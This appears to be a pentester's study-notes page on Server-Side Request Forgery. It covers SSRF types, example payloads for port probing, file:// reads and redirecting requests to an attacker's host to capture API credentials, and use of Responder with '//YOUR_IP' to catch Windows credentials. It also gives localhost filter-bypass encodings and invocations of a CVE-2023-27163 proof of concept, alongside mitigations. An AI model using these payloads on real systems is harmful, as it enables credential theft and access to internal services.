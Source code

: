 # Server-Side Request Forgery (SSRF)

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data
</div><div>

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client 
</div></div>

<hr class="sep-both">

## Common payloads

<div class="row row-cols-lg-2"><div>

#### Forms

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

**Mapping ports/services** 🗺️

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small>.

**Steal files** 💰

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.
</div><div>

#### URL

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

For instance, with the `api=xxx`, a normal request could be sent to `xxx.thebestapi.com/path`. But, if a hacker uses `api=malicious_website.com?&ignore=`, then the URL crafted is `malicious_website.com?&ignore=.thebestapi.com/path`. Notice that the request is now sent to another website, and the concatenated domain name is now the value of `ignore`.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Responder

[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) to catch Windows authentication requests. 

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

<div class="row row-cols-lg-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is a condition like `the URL must start with https://example.com`, then it can be bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in a cloud environment, but there are usually a lot of ways to bypass such filters.

For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal), and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me) are all resolving to `127.0.0.1`.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.02k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # send to listener
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:port2 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>